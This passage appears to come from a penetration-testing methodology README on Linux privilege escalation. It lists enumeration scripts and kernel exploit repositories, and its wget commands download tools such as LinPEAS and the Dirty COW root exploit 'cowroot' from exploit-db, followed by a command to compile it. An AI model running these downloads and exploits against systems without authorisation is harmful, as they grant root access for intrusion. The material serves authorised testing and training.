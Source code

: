 - [Walkthrough](https://github.com/D4nk0St0rM/ethicalhacking_d4nk0_method_build/blob/main/assets/Linux%20-%20LXD%20-%20Mounting%20the%20root%20filesystem%20in%20a%20container.pdf)


#### :panda_face: Exploits and tools

- LinPEAS – Linux Privilege Escalation Awesome Script: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
    ```
    wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
    ```
- Linux Priviledge Escalation Checker: 
    ```
    wget http://www.securitysift.com/download/linuxprivchecker.py
    ```
- Unix Privideldge Escalation Checker: http://pentestmonkey.net/tools/audit/unix-privesc-check
    ```
    ./unix-privesc-check standard
    ./unix-privesc-check detailed
    ```
- [Linux Privilege Escalation Check List](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
- [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Exploit Suggester - v2.0](https://github.com/jondonas/linux-exploit-suggester-2)
- [Linux Kernal Exploits](https://github.com/SecWiki/linux-kernel-exploits)
- [More Linux Kernal Exploits](https://github.com/lucyoa/kernel-exploits)
    - And more... : https://github.com/bwbwbwbw/linux-exploit-binaries
    - ...more...: https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack
    - Exploits & Shellcodes: https://github.com/offensive-security/exploitdb
    - Binary Exploits: https://github.com/offensive-security/exploitdb-bin-sploits
    - Papers: https://github.com/offensive-security/exploitdb-papers

#### :panda_face: Compiling Exploits
```
wget https://www.exploit-db.com/download/40616 -O cowroot.c
gcc cowroot.c -o cowroot -pthread
```

